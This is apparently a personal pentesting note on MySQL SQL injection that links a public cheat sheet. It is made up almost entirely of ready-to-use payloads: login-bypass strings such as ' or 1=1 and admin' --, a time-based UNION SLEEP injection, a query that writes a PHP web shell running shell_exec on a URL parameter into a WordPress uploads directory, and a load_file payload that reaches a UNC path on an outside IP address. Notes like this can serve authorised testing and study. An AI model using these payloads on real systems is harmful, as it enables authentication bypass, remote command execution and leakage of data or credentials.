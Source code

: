 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MySQL
  - SQL
  - Concepts
---
```

# Guide

1. [MySQL SQL Injection Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
# Injection Commands

# Example Login Queries

```
SELECT * FROM users where ((password = hash({password})) and (username = {username}))
```

## Password Bypass

```
' or 1=1
```
```
admin' --
```
```
' or '1'='1'--'
```
```
' or 1=1 -- -
```
```
' UNION SELECT SLEEP(10);-- --
```

# Save File

```
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

# Windows

```
term=10' UNION SELECT 1,load_file('\\\\192.168.19.26\\test'),3-- -
```